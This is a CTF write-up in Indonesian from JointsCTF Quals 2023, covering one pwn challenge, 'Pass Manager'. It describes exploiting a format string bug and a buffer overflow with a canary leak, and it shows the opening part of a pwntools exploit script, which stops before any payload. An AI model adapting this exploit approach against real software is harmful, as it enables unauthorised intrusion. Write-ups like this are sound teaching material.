 ```yaml
---

title: 'JointsCTF | Writeup'

---
```


Writeup Joints CTF Quals 2023
===

![](https://i.imgur.com/FGKhl6A.png)


TEAM:  anya lagi anya lagi, tapi yaudah deh semoga kali ini masuk tiga besar hehehe 

Member:
    - aimardcr
    - dimas

PWN
===
## Pass Manager

Dalam challenge ini, kita harus memanfaatkan kelemahan format string dan overflow buffer. Selain itu, kita harus dapat melakukan "leak" pada canary agar tidak terdeteksi adanya stack smashing. Berikut adalah payload yang saya gunakan untuk menyelesaikan tantangan ini: 

```python
from pwn import *
import sys

BINARY = "vuln(1)_patched"
context.binary = exe = ELF(BINARY, checksec=False)
context.terminal = "konsole -e".split()
context.log_level = "INFO"
context.bits = 32
context.arch = "i386"

libc = ELF("libc.so.6")


def init():
    if args.RMT:
        p = remote(sys.argv[1], sys.argv[2])
    else:
        p = process()
    return Exploit(p), p


class Exploit:
    def __init__(self, p: process):
        self.p = p

    def debug(self, script=None):
        if not args.RMT:
            if script:
                attach(self.p, script)
            else:
                attach(self.p)
    def leak(self, fmt: str):
        p = self.p
        p.sendline(b"1")
        p.sendline(fmt.encode())
        p.recvuntil(b"Nice to meet you ")
```